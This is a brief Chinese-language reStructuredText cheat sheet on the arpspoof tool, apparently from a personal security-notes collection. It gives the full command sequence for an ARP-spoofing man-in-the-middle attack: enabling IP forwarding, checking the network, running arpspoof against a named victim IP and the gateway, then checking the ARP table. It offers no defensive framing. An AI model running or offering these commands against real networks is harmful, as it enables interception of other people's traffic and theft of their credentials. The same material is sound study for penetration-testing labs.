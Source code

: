 .. _arpspoof:

==========
Arpspoof
==========

开启IP转发
::

echo 1 >> /proc/sys/net/ipv4/ip_forward

查看网段信息
::

ip a

对被攻击者进行 ARP 欺骗
::

arpspoof -i eth0 -t 192.168.1.103 192.168.1.1


查看 ARP 映射表
::

arp -a

